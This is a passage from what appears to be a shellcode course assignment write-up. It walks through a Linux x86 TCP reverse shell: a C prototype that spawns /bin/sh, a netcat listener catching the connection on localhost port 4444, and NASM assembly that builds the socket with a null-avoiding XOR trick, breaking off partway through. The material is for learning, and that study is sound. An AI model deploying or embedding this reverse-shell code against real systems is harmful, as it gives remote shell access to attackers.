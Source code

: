 #### Testing the program

Compiling the C prototype:
```
slemire@slae:~/slae32/assignment2$ gcc -o shell_tcp_reverse_c shell_tcp_reverse.c
shell_tcp_reverse.c: In function ‘main’:
shell_tcp_reverse.c:13:25: warning: implicit declaration of function ‘inet_addr’ [-Wimplicit-function-declaration]
  addr.sin_addr.s_addr = inet_addr("127.0.0.1"); // Connection IP
                         ^
shell_tcp_reverse.c:35:2: warning: null argument where non-null required (argument 2) [-Wnonnull]
  execve("/bin/sh", 0, 0);
  ^
```

Netcat is used to listen for the reverse shell connection on port 4444:
```
slemire@slae:~/slae32/assignment2$ ./shell_tcp_reverse_c 
[...]
slemire@slae:~$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 52202)
whoami
slemire  
```

### Assembly version
--------------------
Similar to the bind shellcode, we first clear out the registers so there is nothing left in the upper or lower half that could cause problems with the program execution.

```nasm
; Zero registers
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx
```

Next, a socket is created and we create the addr struct used to store the IP and port where the shellcode will connect to. In this example, the `127.0.0.1` IP is used with port `4444`. Later, we will use a python script to easily modify the IP address and port in the shellcode so we don't need to touch the assembly code manually every time we want to make a change. Depending on the IP address used, the shellcode generated might contain null bytes so instead the IP address is XORed with a specific key that won't result in null bytes in the shellcode.

```nasm
; Create socket
mov al, 0x66        ; sys_socketcall
mov bl, 0x1         ; SYS_SOCKET
push 0x6            ; int protocol -> IPPROTO_TCP
push 0x1            ; int type -> SOCK_STREAM
push 0x2            ; int domain -> AF_INET
mov ecx, esp
int 0x80            ; sys_socketcall (SYS_SOCKET)
mov edi, eax        ; save socket fd

; Create addr struct
mov eax, 0xfeffff80 ; 127.0.0.1 XORed
mov ebx, 0xffffffff ; XOR key (should be changed depending on IP to avoid nulls)
xor eax, ebx        ; 
push edx            ; NULL padding
push edx            ; NULL padding
push eax            ; sin.addr (127.0.0.1)
push word 0x5c11    ; Port 4444
push word 0x2       ; AF_INET
```